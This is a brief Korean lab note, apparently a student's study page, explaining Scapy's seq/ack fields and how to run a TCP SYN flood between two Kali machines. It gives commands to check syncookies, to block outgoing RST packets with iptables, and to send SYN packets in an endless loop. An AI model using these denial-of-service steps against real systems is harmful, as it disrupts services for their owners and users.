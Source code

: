 - sr1 : 보내고 응답을 기다리는 함수

- seq : 상대가 관리하는 번호
- ack : 내가 관리하는 번호(상대가 seq로 줬으면 하는)



### TCP SYN Flooding

- SYN 패킷을 계속해서 전달

##### @kali#1의 syncookies를 사용하지 않게 함

```
@kali#1
#sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 1 : syncookies를 사용 = backlog queue에 SYN 패킷을 저장하지 않음
```

##### @kali#2에서 RST 패킷이 외부로 나가지 못하도록 방화벽에 등록

```
@kali#2
#iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
```

- 방화벽 정책 삭제

  ```
  #iptables -L -n
  #iptables -D OUTPUT <number>
  ```

##### @kali#2에서 syn 무한 전송

```
>>send(syn, loop=1)
```

